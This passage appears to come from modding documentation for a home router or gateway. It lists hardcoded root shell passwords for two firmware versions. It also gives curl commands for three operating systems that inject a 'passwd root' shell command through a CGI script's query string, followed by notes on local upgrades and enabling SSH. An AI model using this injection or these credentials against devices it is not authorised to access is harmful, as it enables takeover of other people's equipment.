 ### Shell credentials

=== "&lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | root     | QpZm@4246#5753 |

=== "v1.0.21"

    | Username | Password       |
    | -------- | -------------- |
    | root     | M533%27#32n682 |


??? bug "Exploit to temporarily change the root password"
    Run the following command to temporarily change the root password to `root`.

    === ":fontawesome-brands-windows: Windows"

        ``` sh
        curl -s -o null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

    === ":material-apple: macOS"

        !!! note "The following commands assume [Homebrew](https://brew.sh) is installed"

        ``` sh
        brew install curl
        curl -s -o /dev/null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

    === ":material-linux: Linux"

        !!! note "The following commands assume a Debian-based distribution, such as [Ubuntu](https://ubuntu.com/)"

        ``` sh
        sudo apt-get install curl
        curl -s -o /dev/null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

### Local upgrade

The extracted `local-upgrade.tar` includes a <ins>safer</ins> upgrade script in comparison to the built-in web UI.

<h4>Enable SSH</h4>

SSH must be enabled from the web UI prior to running the shell commands.
